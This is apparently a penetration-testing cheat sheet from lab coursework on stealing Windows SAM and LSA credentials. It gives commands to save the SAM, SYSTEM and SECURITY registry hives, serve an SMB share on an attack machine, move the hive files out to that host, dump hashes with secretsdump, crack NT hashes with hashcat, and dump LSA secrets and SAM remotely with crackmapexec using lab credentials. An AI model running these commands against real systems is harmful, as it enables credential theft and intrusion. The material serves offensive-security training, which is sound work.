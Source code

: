 #windows/auth/SAM
SAM (Security Account Manager) is a database file in Windows operating systems that stores local user accounts and security descriptors for users on the local machine. It is a critical component of the Windows security system and is located in the `C:\Windows\System32\config` directory.

The LSA is a core component of Windows security, responsible for authentication, authorization, and enforcing security policies. It operates within the LSASS.exe process and is critical for maintaining the integrity and security of the system.

#### SAM Hives:
* `hklm\sam` 	        Contains the hashes associated with local account passwords
* `hklm\system` 	Contains the system bootkey, which is used to encrypt the SAM database.
* `hklm\security` 	Contains cached credentials for domain accounts. 

Saving:
```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

##### Create a smb share to copy saved hives to attack machines:
```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
##### Copy:
```cmd
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```
##### Dump hashes:
```shell
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
##### Crack nthashes:
```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

##### Dumping LSA Secrets Remotely:
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
##### Dumping SAM Remotely:
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```